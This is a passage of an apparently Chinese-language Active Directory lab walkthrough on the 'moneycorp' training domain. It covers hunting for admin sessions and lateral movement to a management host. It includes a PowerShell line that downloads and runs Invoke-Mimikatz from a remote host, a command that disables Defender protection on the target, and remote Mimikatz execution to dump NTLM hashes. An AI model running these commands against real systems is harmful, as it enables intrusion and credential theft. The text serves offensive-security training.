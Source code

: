 UserDomain      : dollarcorp.moneycorp.local
UserName        : Administrator
ComputerName    : dcorp-appsrv.dollarcorp.moneycorp.local
IPAddress       : 172.16.4.217
SessionFrom     : 172.16.2.1
SessionFromName :
LocalAdmin      :

UserDomain      : dcorp
UserName        : svcadmin
ComputerName    : dcorp-mgmt.dollarcorp.moneycorp.local
IPAddress       : 172.16.4.44
SessionFrom     :
SessionFromName :
LocalAdmin      :
```

可以看到svcadmin登录过dcorp-mgmt，计算机名字是```dcorp-mgmt.dollarcorp.moneycorp.local```

查看当前账号（ciadmin）对哪些机器有本地管理员权限
```
PS C:\users\ciadmin> invoke-userhunter -checkAccess
UserDomain      : dcorp
UserName        : svcadmin
ComputerName    : dcorp-mgmt.dollarcorp.moneycorp.local
IPAddress       : 172.16.4.44
SessionFrom     :
SessionFromName :
LocalAdmin      : True
```

看到是有LocalAdmin权限的，可以用以下命令在对方机器执行验证
```
PS C:\users\ciadmin> Invoke-Command -ScriptBlock {whoami;hostname} -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local
dcorp\ciadmin
dcorp-mgmt
```
## 横向移动

引入Invoke-Mimikatz.ps1，并且在内存中执行

```
iex (iwr http://172.16.100.66/Invoke-Mimikatz.ps1 -UseBasicParsing)
```

从上面我们已经知道当前账号ciadmin可以横向登录到计算机dcorp-mgmt.dollarcorp.moneycorp.local，我们把登录的session保存在$sess
```$sess = New-PSSession -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local```

指定目标靶机的session，在目标靶机关闭杀软（效果跟bypass AMSI大同小异，不过因为我们是目标靶机上的管理员，因此可以直接关闭）
```Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session $sess```

指定目标靶机的session，在目标靶机执行Mimikatz
```Invoke-command -ScriptBlock ${function:Invoke-Mimikatz} -Session $sess```


执行操作如下，导出所有ntml 哈希
```
PS C:\Program Files (x86)\Jenkins\workspace\project1> powershell -ep bypass
Windows PowerShell
Copyright (C) 2016 Microsoft Corporation. All rights reserved.
